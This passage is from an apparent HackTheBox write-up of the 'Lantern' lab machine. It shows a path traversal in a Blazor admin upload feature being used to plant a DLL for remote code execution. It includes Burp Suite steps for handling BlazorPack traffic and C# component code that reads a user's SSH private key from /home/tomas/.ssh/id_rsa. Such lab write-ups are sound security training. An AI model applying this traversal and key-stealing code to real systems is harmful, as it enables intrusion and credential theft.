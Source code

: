 Therefore, if we can upload a malicious DLL to /opt/components/thecybersecguru.dll, we can have an RCE attack.

3,RCE | Traversing Blazor 

The “Upload content” option in http://lantern.htb:3000 admin dashboard also suffers from path traversing. We can verify that by uploading an empty DLL file to our target path /opt/components.

It means we can try to modify the file name to ../../../../opt/components/thecybersecguru.dll, using tools like BurpSuite intercepting the upload requests. But we are having an unusual situation for the Blazor Assembly application, which we hard to read the request body consisting of binaries:
![[Pasted image 20240830082455.png]]

When we want to test with Blazor, all the messages transmitted by the application included seemingly random binary characters, that we have limited readability and the inability to tamper with data. So, we can use a MessagePack extension in BurpSuite to read the serialized body content. And we can use the extension called Blazor Traffic Processor (BTP) to capture the BlazorPack message in BurpSuite.

```
MessagePack is another serialization format used to package structured data, like JSON, XML, etc. While Blazor server uses MessagePack, the traffic is specifically formatted according to Blazor’s own Hub Protocol specification. Therefore, generic MessagePack parsers like the Burp Suite MessagePack extension available from the BApp Store will not work with Blazor traffic.
```

Now we can paste the binary to our intercepted request. Once we upload successfully, we can simply type thecybersecguru i.e. the filename in the “Choose module” option to verify the vulnerability:
![[Pasted image 20240830082558.png]]

Although the DLL file is invalid, but we know it’s uploaded successfully and ready to be executed.

Let’s go get the RCE attack now. There’re many different ways we can get a reverse shell, once we have the RCE primitive verified. As we know there’s a tomas user from the path traversing last part, we can try to leak its SSH private key with the following C# code:
```
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;
namespace xpl
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);
           
            // Read private SSH key of user tomas
            string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");
           
            builder.AddContent(0, file);
        }
    }
}
```
